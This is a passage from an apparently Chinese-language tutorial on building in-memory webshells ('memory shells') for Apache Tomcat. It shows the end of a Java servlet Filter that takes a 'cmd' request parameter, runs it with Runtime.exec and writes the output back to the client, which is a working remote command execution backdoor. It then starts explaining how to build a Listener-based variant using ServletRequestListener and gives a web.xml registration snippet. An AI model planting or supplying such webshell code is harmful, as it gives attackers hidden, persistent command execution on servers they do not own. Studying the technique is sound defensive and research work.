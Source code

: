```java
//            String line;
//            while ((line = in.readLine()) != null) {
//                stringBuilder.append(line + '\n');
//            }
//            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
//            servletResponse.getOutputStream().flush();
//            servletResponse.getOutputStream().close();
//            return;

//RCE ?cmd=whoami
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        chain.doFilter
                (servletRequest, servletResponse);
    }
}

```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250304165345194.png)

jsp版很好写，自己写



## listener内存马

在 Apache Tomcat 中，**Listener（监听器）**是一种用于监听特定事件（如应用程序启动、请求创建、会话销毁等）的组件。它们基于 **Servlet 规范**，允许开发者在事件发生时执行自定义逻辑，例如初始化资源、日志记录、安全检查等。

如果在Tomcat要引入listener，需要实现两种接口，分别是`LifecycleListener`和原生`EvenListener`。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250308134804121.png)

实现了`LifecycleListener`接口的监听器一般作用于tomcat初始化启动阶段，此时客户端的请求还没进入解析阶段，不适合用于内存马。

由上可知，构造内存马应该选用监听HTTP请求的`ServletRequestListener` （GPT真好用捏~）

Listener可以在web.xml配置，也可以用@WebListener注解配置

```xml
<listener>
    <listener-class>com.example.MyContextListener</listener-class>
</listener>
```
